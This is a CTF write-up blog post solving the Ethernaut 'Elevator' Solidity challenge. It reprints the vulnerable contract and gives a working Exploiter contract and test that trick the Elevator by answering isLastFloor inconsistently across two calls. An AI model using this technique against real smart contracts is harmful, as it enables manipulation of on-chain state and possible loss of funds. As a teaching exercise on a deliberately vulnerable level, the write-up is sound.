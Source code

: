```yaml
---
title: 'Ethernaut Challenge #11 Solution — Elevator'
excerpt: This is Part 11 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to be able to reach the top floor of the building.
coverImage:
  url: '/assets/blog/ethernaut/fallback.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2020-07-21T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/elevator.svg'
---
```


This is Part 11 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #11: Elevator

> This elevator won't let you reach the top of your building. Right?
> Things that might help:
>
> - Sometimes solidity is not good at keeping promises.
> - This `Elevator` expects to be used from a `Building`.
>
> Level author: [Martin Triay](https://github.com/martriay)

The goal of this challenge is to be able to reach the top floor of the building.

## Study the contracts

The code of the Challenge's Level is pretty simple, let's dump it here and study it

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}

```

The `Elevator` is a pretty simple contract.

It has two state variables:

- `bool public top` a boolean variable that will state if the elevator has arrived to the top of the building. It is initialized as `false` by default
- `uint256 public floor` an integer variable that will state to which floor the elevator has arrived. It is initialized to `0` by default

Then we have the `goTo` function that takes a `uint256 _floor`. This function is expected to be called by a smart contract that implements the `Building` interface.

Inside the function, it checks the `Building.isLastFloor` result that **should** state whether a floor is the top of the building or not.

If the floor **is not** the top of the building, the function update the `floor` state variable and update also the `top` state variable that should be `false` given that we entered the `if` state only because the same `building.isLastFloor` function has returned `false` just two lines of code above, **right**?

This challenge teaches two important lessons:

- **never, ever, trust an external actor as an assumption**
- **better safe than sorry**

The `msg.sender` (the Building contract) is an external actor. We only know that it must implement the `Building` interface, so it must:

- have a function called `isLastFloor`
- it takes a `uint256` input parameter
- it will return a `bool`

But in reality, apart from this information, we don't know what's inside that contract. How can we be certain that it will **really** return `true` **only** if the floor is the real top of the building?

My two cents suggestions would be:

- Only integrate with external contract that have a verified source code and that you can read what they do and with which other external service they will integrate
- If the external service is upgradable, you must really trust that the owner of the service will not act maliciously in the future
- Even if you trust the external actor, put some safeguards in the contract like some kind of pausable and emergency logic

## Solution code

The solution code is pretty simple, what we must do is to trick the `Elevator` to think that we have not reached the top of the building when it first calls the `isLastFloor` function and then return `true` (we have reached the top) when it calls it the second time.

Here's the code of the `Building` contract

```solidity
contract Exploiter is Building {
    Elevator private victim;
    address private owner;
    bool private firstCall;

    constructor(Elevator _victim) public {
        owner = msg.sender;
        victim = _victim;
        firstCall = true;
    }

    function goTo(uint256 floor) public {
        victim.goTo(floor);
    }

    function isLastFloor(uint256) external override returns (bool) {
        // if the Elevator call us the first time return `false` to trick him
        // but return `true` if the second time to exploit it
        if (firstCall) {
            firstCall = false;
            return false;
        } else {
            return true;
        }
    }
}
```

And here's the code of the test itself

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the contract
    Exploiter exploiter = new Exploiter(level);

    // trigger the exploit
    exploiter.goTo(0);

    // assert that the elevator has reached the top of the building
    assertEq(level.top(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Elevator.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Elevator.t.sol)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
